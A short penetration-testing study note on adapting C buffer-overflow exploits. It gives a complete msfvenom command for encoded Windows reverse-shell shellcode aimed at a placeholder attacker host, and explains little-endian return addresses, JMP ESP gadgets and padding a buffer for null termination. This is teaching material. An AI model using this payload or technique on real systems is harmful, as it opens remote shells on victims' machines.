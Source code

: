 # Modifying Exploits

## Generate Shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=OUR_IP LPORT=OUR_PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

**Notes:**

- `EXITFUNC=thread` is useful when injecting into a process as without it, closing the shell would end the injected process
- `-b "\x00\x0a\x0d\x25\x26\x2b\x3d"` should always be included when generating C code to avoid potential issues

We can then copy and paste this into our C code before compiling it with [mingw](Tools/mingw.md).

## Fundamentals

We should leave NOP slides, but modify remaining shellcode using the previously mentioned command.

We also might need to modify the return address.

**Key Concept:** Return addresses coded in C are ordered backwards to their respective mapped addresses when debugging. So, a coded return address of:

```c
unsigned char retn[] = "\x83\x0c\x09\x10";
```

Corresponds to the address in a debugger:

```
0x10090c83
```

### Return Addresses

When it comes to buffer overflow, in order to execute shellcode that is present on the stack, we must make our return address point to a `JMP ESP` instruction.

By overwriting a function's return address with the address of a `JMP ESP` instruction found elsewhere in the program or in a loaded library, we can redirect the program's execution directly to the shellcode they've injected into the stack. This is because `JMP ESP` instructs the CPU to jump to the address contained in the `ESP` register, which, in the case of a buffer overflow, can be manipulated to point to our shellcode.

We can discover `JMP ESP`'s in our target program using Immunity Debugger

### Misalignment

In the case our buffer overflow is still failing, the most common issue tends to be from misalignment. This often occurs when constructing the payload, especially due to the null-termination of strings in C. If the payload is intended to precisely overwrite up to the return address but is null-terminated, it may end up one byte short, misaligning the overwrite.

**Solution:** Ensure the buffer size accounts for null-termination. If 780 bytes are needed to reach the return address, allocate 781 bytes and fill with your payload, setting the last byte to `0x00` to maintain string compatibility. This adjustment corrects the misalignment, ensuring the return address is accurately overwritten.

```c
int initial_buffer_size = 781; // Adjust buffer size for null-termination
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size - 1); // Fill buffer, leaving last byte
memset(padding + initial_buffer_size - 1, 0x00, 1); // Set last byte to null
```
